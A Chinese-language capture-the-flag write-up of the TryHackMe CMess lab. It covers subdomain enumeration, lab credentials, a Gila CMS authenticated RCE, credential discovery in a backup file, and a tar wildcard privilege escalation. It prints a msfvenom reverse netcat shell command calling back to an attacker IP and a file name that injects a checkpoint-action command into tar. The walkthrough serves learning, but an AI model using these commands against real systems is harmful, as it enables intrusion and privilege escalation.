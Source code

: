```yaml
---
title: '[thm] CMess'
date: 2024-12-27 21:50 +0800
categories: [hack,TryHackMe]
tags: []
---
```


## information

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image.png>)
> port scan

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-1.png>)
通过子域名爆破发现一个子域名，得到用户邮箱和密码。web/[**andre@cmess.thm:KPFTN_f2yxe%**](mailto:andre@cmess.thm:KPFTN_f2yxe%)

## user1

在主域下发现cms框架为gila cms。搜索发现有一个nday，Exploit Title: Gila CMS 1.10.9 - Remote Code Execution (RCE) (Authenticated)
直接获得shell。
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-2.png>)

## user2

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-3.png>)
> cat /var/www/html/config.php

这里有一个数据库的账户，不知道为什么，这里我连不上去，直接看wp了，发现我的做法没有问题，但是这里是一个兔子洞。
正确的做法是在/opt下找到一个.password.bak文件
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-4.png>)
查看passwd发现这里的用户名也不对，使用正确的用户名登录。
![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-5.png>)
得到user2 **andre:UQfsdCB7aAP6**

## root

![alt text](<../assets/img/2024-12-27-[thm] CMess.assets/image-6.png>)
这里是一个通配符注入。
这里直接用bash反弹shell拿不到，使用msfvenom生成一个就可以成功弹回来了，生成语句如下：
`sudo msfvenom -p cmd/unix/reverse_netcat lhost=10.11.120.122 lport=1234 R > shell.sh`

再一个就是生成文件夹的时候，使用mkdir不好生成带有`--`的文件，看了wp，发现可以使用echo方法，语句如下：
`echo "" > "--checkpoint-action=exec=sh shell.sh"`

## conclution

- 基本信息收集要收集全面，在初期，广泛的信息收集大于漏洞的深究。
- 小细节。
